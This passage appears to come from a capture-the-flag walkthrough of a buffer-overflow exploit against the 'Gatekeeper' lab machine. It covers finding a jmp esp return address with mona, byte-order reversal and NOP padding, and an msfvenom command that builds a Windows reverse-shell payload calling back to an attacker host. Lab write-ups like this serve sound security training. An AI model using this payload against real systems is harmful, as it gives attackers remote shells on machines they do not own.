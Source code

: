 ### Jump Point

The mona command below will find the Jump point. The application code will execute until it reaches the `jmp esp` point then it will jump to our shellcode. The jmp esp should not contain any badchars, and so we exclude them.

```
!mona jmp -r esp -cpb "\x00\x0a"
```
![](/assets/img/images/gatekeeper/jmp.png)

We use the first address : `\x08\x04\x14\xc3` as our return address. However we will reverse the order (\xc3\x14\x04\x08), since the stack goes from the top of the memory to the bottom, thus we need to write the "data from low to high"

This diagram gives a better understanding :

![](/assets/img/images/gatekeeper/endian.png)

We also add some padding to fill the buffer. `(\x90)*32`

### Payload

Generate a reverse shell using `msfvenom` , omitting all the badchars as below:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -b '\x00\x0a' EXITFUNC=thread -f python -v payload
```
Copy the output to the payload, the final exploit code should look like :

